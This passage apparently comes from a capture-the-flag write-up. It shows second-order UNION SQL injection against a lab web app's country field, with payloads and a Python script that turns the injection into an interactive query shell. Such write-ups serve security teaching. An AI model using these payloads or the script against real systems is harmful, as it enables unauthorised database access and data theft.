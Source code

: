 A UNION injection is when I add a UNION statement to the query allowing me to make a new query and append the results to the intended query. I’ll need to match the same number of columns, or the query will error. I’ll start with `Brazil' UNION SELECT 1;-- -`. That would make the query:

```

SELECT username from players where country = 'Brazil' UNION SELECT 1;-- -';

```

I’ll need to use another user here, or I still get some weird results. I’ll submit the request, and then load the `account.php` page with that cookie. It worked:

![image-20210913210922606](https://0xdfimages.gitlab.io/img/image-20210913210922606.png)

That 1 at the end is the result of the union.

If I change the 1 to `user()`, I get the name of the user for the DB:

```

username=0xdfaaaaaaa&country=Brazil' union select user();-- -

```

This results in:

![image-20210913211039611](https://0xdfimages.gitlab.io/img/image-20210913211039611.png)

### Script SQLI

This is another example where I could keep working out of Repeater, but it’s a pain, and if I’m doing enumeration for any period of time, it’s nice to have a shell. This is what I came up with:

```

#!/usr/bin/env python3

import random
import requests
from bs4 import BeautifulSoup
from cmd import Cmd

class Term(Cmd):

    prompt = "> "

    def default(self, args):
        name = f'0xdf-{random.randrange(1000000,9999999)}'
        resp = requests.post('http://10.10.11.116/',
                headers={"Content-Type": "application/x-www-form-urlencoded"},
                data={"username": name, "country": f"' union {args};-- -"})
        soup = BeautifulSoup(resp.text, 'html.parser')
        if soup.li:
            print('\n'.join([x.text for x in soup.findAll('li')]))

    def do_quit(self, args):
        return 1

term = Term()
term.cmdloop()

```

